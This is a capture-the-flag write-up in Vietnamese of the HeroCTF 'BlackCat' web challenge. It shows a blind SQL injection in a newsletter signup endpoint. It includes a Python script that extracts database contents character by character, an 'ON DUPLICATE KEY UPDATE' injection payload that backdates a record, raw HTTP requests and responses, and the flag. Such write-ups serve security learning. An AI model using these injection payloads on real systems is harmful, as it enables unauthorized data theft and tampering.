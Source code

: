 # HeroCTF - BlackCat

**Description**: Ayo nạp email và sau 3 ngày email mày sẽ được validate từ đó có thể tham gia cái event này vui lắm(flag).

Đây là 1 bài blackbox nên tối mờ tối mịt, khó là ở chỗ foothold, không có hint chắc người thiếu kiên nhẫn như mình đòi bỏ quộc.

1. Cho 1 endpoint curl đến với 1 email, trả về 1 endpoint khác cùng secret.
2. Curl đến endpoint trả về trên cùng email và secret thi được `ayo!! 3 ngày`

Làm gì đây, là 1 hacker thì phải đa nghi đi test tất chứ, thử SQLi vào email endpoint thứ nhất thì đúng là nó dính(trigger error bằng comment hoặc `e@b.c', 'secret')-- -` mà curl với secret trên đúng là chuẩn rồi)

Mình muốn nhấn mạnh mình cần đa nghi nhiều hơn nữa và test tất, đã thử là thử cho ra trò, xem xét req valid với res valid và error khi test các kí tự đặc biệt.

Tiếp build python script brute-force tìm table và column:
```python
import requests
import string

characters = string.ascii_letters + string.digits + string.punctuation
url = 'https://blackcat.web.heroctf.fr/api/newsletter.php'
s = requests.Session()


headers = {
	'User-Agent': 'curl/7.83.0',
	'Accept': '*/*',
	'Content-Type': 'application/x-www-form-urlencoded'
}

flag = ''
while True:
	for c in characters:
		data = {
			'email': f"hello16@abc.com', (SELECT CASE WHEN (SELECT ascii(substring((SELECT email FROM newsletter limit 0,1),{len(flag)+1},1)))={ord(c)} THEN '1' ELSE 1/0 END)) ON DUPLICATE KEY UPDATE secret=secret-- -"
			# 'email': "hello16@abc.com', 'a') ON DUPLICATE KEY UPDATE send_date=1-- -"
		}

		r = s.post(url, data=data, headers=headers)
		print(flag+c)
		if 'ok' in r.json():
			flag += c
			print('[FOUND] : '+flag)
			break
```
1. Tìm được database(): backcat
2. table_name: newsletter
3. columns: email, secret, send_date

Tiếp ta dùng burp đấm(vì nó chỉ cho dùng curl(thật ra thêm header `tao là curl` là được))

## ENDPOINT 1
`request`:
```
POST /api/newsletter.php HTTP/2
Host: blackcat.web.heroctf.fr
User-Agent: curl/7.83.0
Accept: */*
Content-Length: 84
Content-Type: application/x-www-form-urlencoded

email=devme1@abc.com', 'a') ON DUPLICATE KEY UPDATE send_date=DATE('2023-11-22')-- -
```
Ta SQLi ở insert, nếu email trùng thì duplicate update `send_date` cho quá hạn là được!!. À mà quên, ta leak được column vs table_name nhưng không đọc được value trong đó nên ta không đoán được type của send_date là gì. Học làm pentest mà còn hỏi, phải test chứ gì, `int` không được nghĩ đến hàm `date()` để parse date.

`response`:
```
HTTP/2 200 OK
Server: nginx/1.21.6
Date: Sun, 29 May 2022 16:08:55 GMT
Content-Type: application/json
Content-Length: 269
X-Powered-By: PHP/7.2.34

{"ok":"Check at /api/check.php with your email as get parameter and this secret: cc58d9ae093cbfb80ebc as get parameter too, to check if you've been accepted.<br>Example: https://blackcat.web.heroctf.fr/api/check.php?email=worty@blackcat.fr&secret=a32ecb08749ffeaf4e78"}
```

## ENDPOINT 2
Giai đoạn get flag thôi!!

`request`:
```
GET /api/check.php?email=devme1@abc.com&secret=a HTTP/2
Host: blackcat.web.heroctf.fr
User-Agent: curl/7.83.0
Accept: */*


```

`response`:
```
HTTP/2 200 OK
Server: nginx/1.21.6
Date: Sun, 29 May 2022 16:08:57 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 268
X-Powered-By: PHP/7.2.34
Vary: Accept-Encoding

We are glad that you participate at this very hidden conference !<br>Conferences will take place at 'blackcatjnhhyaiolppiqnbsvvxgcifuelkzpalsm.onion'<br>Be sure to proof that you receive this email with this sentence : Hero{y0u_b34t_bl4ckc4t_0rg4n1z3rs!!}<br>BlackCat.
```

**flag**: `Hero{y0u_b34t_bl4ckc4t_0rg4n1z3rs!!`
